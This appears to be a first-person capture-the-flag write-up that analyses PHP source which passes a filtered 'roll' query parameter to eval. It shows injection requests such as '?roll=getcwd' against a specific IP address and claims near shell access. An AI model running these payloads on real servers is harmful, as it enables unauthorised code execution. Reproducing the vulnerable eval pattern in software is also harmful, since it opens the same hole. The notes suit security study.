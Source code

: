 return one element from the array at random. 

Maybe. technically the line is: 

`return $words[array_rand($words)];`

Next function:

get_lucky_number

define a number, a psudo random int between in min and max.

If there is no value assigned to to "roll" as a parameter.

else

pass the value of parameter "roll" to a regex.

it matches 1 or more of:

characters a-z

"("

")"

"_"

"."

And then the end of the string.

If the regex finds no match. OR the contents of "roll" exceed 50 bytes

Display sassy error.

Else

Eval statement and an echo.

Oh jesus

The eval statement takes the user input and interprets it as this or that function name.

So i can type full php commands, yeah?

[http://192.46.227.32/?roll=scandir(.)](http://192.46.227.32/?roll=scandir(.))

this returns a 500 internal server error.

[http://192.46.227.32/?roll=scandir](http://192.46.227.32/?roll=scandir)

This returns a 200.... the "();"  part is concatonated at the end. So don't include it yourself.

🎇 Ayyyyyy

[http://192.46.227.32/?roll=getcwd](http://192.46.227.32/?roll=getcwd)

Returns this!

/var/www/html

I have a shell basicly!

No space
